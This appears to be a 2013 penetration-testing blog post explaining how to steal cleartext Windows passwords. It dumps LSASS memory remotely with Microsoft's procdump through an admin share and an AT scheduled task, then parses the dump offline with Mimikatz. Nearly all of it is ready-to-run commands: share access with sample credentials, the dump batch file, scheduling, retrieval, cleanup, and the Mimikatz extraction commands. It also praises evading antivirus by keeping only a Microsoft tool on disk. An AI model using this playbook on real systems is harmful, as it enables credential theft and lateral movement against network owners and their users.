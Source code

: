 ---
author: mubix
comments: true
date: 2013-06-07 15:00:08+00:00
layout: post
title: Using Mimikatz Alpha or Getting Clear Text Passwords with a Microsoft Tool
categories:
- mimikatz
- meterpreter
- metasploit
---

Mimikatz is now [built into Metasploit's meterpreter](https://github.com/rapid7/meterpreter/pull/9), you can do load mimikatz from the meterpreter prompt, but if you don't want to go through the hassle of dealing with AV, reverse or bind payloads, meterpreter binaries, and you have clear text credentials for an admin, you can just use Mimikatz's alpha release that allows you to run Mimikatz on your machine against a process memory dump of LSASS. The great thing about this technique is that the only thing on disk is a Microsoft tool.

Mimikatz Minidump: [http://blog.gentilkiwi.com/securite/mimikatz/minidump](http://blog.gentilkiwi.com/securite/mimikatz/minidump)

Procdump: [http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx](http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx)

Lets start. First we make sure our authentication works against the box and we can look inside of C$ (usually only admins can)

```
net use \\TARGETBOXC$ /user:DOMAIN\serviceaccount serviceaccount123
dir \\TARGETBOX\C$
```    

If that works then we want to check that we can all the "AT" command on the remote host:

```
at \\TARGETBOX
```

All set. Next lets prep our workspace on the remote host. We are using the C:\Temp directory.

```
mkdir \\TARGETBOX\C$\Temp
dir \\TARGETBOX\C$\Temp
copy c:\temp\procdump.exe \\TARGETBOXC$
copy c:\temp\procdump.bat \\TARGETBOXC$
``` 

The contents of procdump.bat are:

```
@echo off
C:\temp\procdump.exe -accepteula -ma lsass.exe %COMPUTERNAME%_lsass.dmp
``` 

I'm using the computer name in the memory dump name to help me keep track of where the dump came from, but also help me notice when I've dumped more than one IP that is actually the same host.

Next we schedule the task. Use net time to determine the local time for the remote machine.

```
net time \\TARGETBOX
at \\TARGETBOX 13:52 C:\Temp\procdump.bat
``` 

Pull down the file and clean up:

```
dir \\TARGETBOX\C$\Temp
copy \\TARGETBOX\C$\Temp\*lsass.dmp C:\temp\output\
rmdir /s \\TARGETBOX\C$\Temp
``` 

On your side the only thing you need to make sure is that you are running Mimikatz on a similar version and architecture you pulled from. Use the following url for reference:[http://blog.gentilkiwi.com/wp-content/uploads/2013/04/minidump_matrix.png](http://blog.gentilkiwi.com/wp-content/uploads/2013/04/minidump_matrix.png)

Load up the Alpha version of Mimikatz, switch it to minidump mode and you're dumping creds:
 
```
mimikatz # sekurlsa::minidump SUPERCOMPUTER_lsass.dmp
Switch to MINIDUMP

mimikatz # sekurlsa::logonPasswords full
```

Thats it. Password dumping without ever using a "Hacker" tool on target. Much love Microsoft. And even more to Mimikatz creator [@gentilkiwi](http://twitter.com/gentilkiwi) - Benjamin Delpy for both this alpha release and changing his licensing to allow Mimikatz code to be integrated into Meterpreter.